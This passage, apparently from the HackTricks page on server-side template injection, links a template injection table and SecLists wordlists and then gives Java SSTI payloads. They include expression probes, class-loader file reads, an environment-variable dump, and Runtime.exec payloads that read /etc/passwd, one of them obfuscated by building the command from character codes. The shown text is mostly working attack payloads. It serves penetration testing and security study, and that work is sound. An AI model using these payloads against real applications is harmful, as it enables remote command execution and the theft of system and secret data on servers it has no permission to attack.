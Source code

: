 [Template Injection Table](https://github.com/Hackmanit/template-injection-table)

an interactive table containing the most efficient template injection polyglots along with the expected responses of the 44 most important template engines.

## 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#exploits)

Exploits

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#generic)

Generic

In this **wordlist** you can find **variables defined** in the environments of some of the engines mentioned below:

- [https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt)
    
- [https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt](https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#java)

Java

**Java - Basic injection**



```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
// if ${...} doesn't work try #{...}, *{...}, @{...} or ~{...}.
```

**Java - Retrieve the system’s environment variables**



```
${T(java.lang.System).getenv()}
```

**Java - Retrieve /etc/passwd**



```
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
